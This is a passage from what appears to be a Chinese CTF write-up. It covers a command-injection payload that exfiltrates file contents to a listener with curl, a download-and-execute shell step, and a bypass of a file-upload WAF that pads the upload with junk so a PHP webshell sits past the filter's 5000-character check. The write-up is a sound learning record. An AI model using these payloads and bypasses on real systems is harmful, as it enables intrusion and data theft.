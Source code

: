 ```python

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```

```sh
curl ip:5000?id=`cat /*`
```

wget指定下载后的文件名

![31](https://the0n3.top/medias/buildCTF/31.png)

![30](https://the0n3.top/medias/buildCTF/30.png)

点击下载，就会发起请求，下载sh文件，执行里面的内容

![32](https://the0n3.top/medias/buildCTF/32.png)


## 快来破解漂亮国蓝宫的WAF吧！

这里讲起来比较轻松，不过做每道题的时候都能琢磨很长时间...有点累。

测试过程的发现

- 选择文件的框弹出两次，以为是多文件上传，并不是
- 普通的图片也会触发waf，猜测，会审计文件内容里的字符
- 不限制文件类型，如php、.user.ini、.htaccess等文件都可以上传
- 字符`<`、`=`、`?`，等都被ban了，这样php无法解析，.user.ini也不能出现`=`

经过漫长测试，实在找不到这么新的waf，什么waf可以绕过php开头的`<`尖括号呢？

一筹莫展，后来一篇文章给了我新的方向

猜测出题人也不希望她的服务器因为waf检测性能被用户榨干吧？那么他应该仅对文件内容进行了部分审计！！！（我怎么想不到呢？）

![36](https://the0n3.top/medias/buildCTF/36.png)

使用python打印10w个a填充垃圾数据，在末尾添加php代码

你过关！！

![34](https://the0n3.top/medias/buildCTF/34.png)

![35](https://the0n3.top/medias/buildCTF/35.png)

换post🐎，偷师下源码

通过审计源码，确实只审计了前5000个字符`$file_content = file_get_contents($file_path, false, null, 0, 5000);`

```php
<?php

// 检查是否有文件上传
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['upload_file'])) {
    $file = $_FILES['upload_file'];

    // 检查文件是否成功上传
    if ($file['error'] === UPLOAD_ERR_OK) {
        $file_path = $file['tmp_name'];
        $file_size = $file['size'];
        $file_name = basename($file['name']);
        
        // 删除文件扩展名检查

        // 检查文件大小（例如限制为 2MB）
        if ($file_size > 2 * 1024 * 1024) { // 2MB
            die("文件大小超过限制！");
```